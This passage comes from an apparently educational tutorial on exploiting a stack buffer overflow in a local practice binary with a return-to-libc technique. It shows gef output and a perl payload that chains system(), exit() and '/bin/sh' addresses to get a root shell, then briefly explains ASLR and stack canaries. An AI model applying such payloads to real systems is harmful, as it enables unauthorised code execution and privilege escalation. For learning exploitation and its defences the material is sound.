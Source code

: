 
We successfully overflow the buffer, call system with '/bin/sh' as the first arg, and get a shell. This works even despite the fact that when we exit from the shell, we get a segmentation fault. There is a way to exit the shell cleanly without triggering a segfault. What we can do instead of using 0xdeadbeef for our return address is use the `exit` system call address instead. Doing so should give us a clean exit.

    @gef➤  p exit
    $2 = {<text variable, no debug info>} 0xf7e1e8f0 <__GI_exit>
    
    @gef➤  q
    

Reverse exit's address

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒  raddr -a 0xf7e1e8f0 
    \xf0\xe8\xe1\xf7
    

And now replace the invalid return address with it in our payload.

    #
    # [      260 x "A" characters      ][  system() address  ][ exit() address ][ '/bin/sh' address ]
    #
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xf0\xe8\xe1\xf7" . "\x3e\x52\xf5\xf7"')
    @sh-4.4# whoami
    root
    @sh-4.4# exit
    exit
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒
    

And get a shell with a clean exit.

## Brief overview of a few common buffer overflow protection mechanisms

- 
ASLR (Address Space Layout Randomization)

- ASLR is a technique used to randomize the address space of programs when they start. This is done by giving program a random start address. This makes exploiting a buffer overflow more difficult because the addresses in the program become unreliable thus making it harder to consistently jump to any given address. Just like any other security mechanisms, ASLR only makes things more difficult. Not impossible.

- 
Canary

- Stack Canaries are used to catch stack overflows before malicious code is executed. These work by modifying function epilog and prologue regions on the stack. If a buffer is overwritten during execution, it's noticed, and results in an exception (hopefully) which bubbles up until it is caught by an exception handler. This is not always successful and there are methods for exploiting this. If you can successfully overwrite the exception handler on the stack (SEH), you can carry out your exploit, completely mitigating canaries.
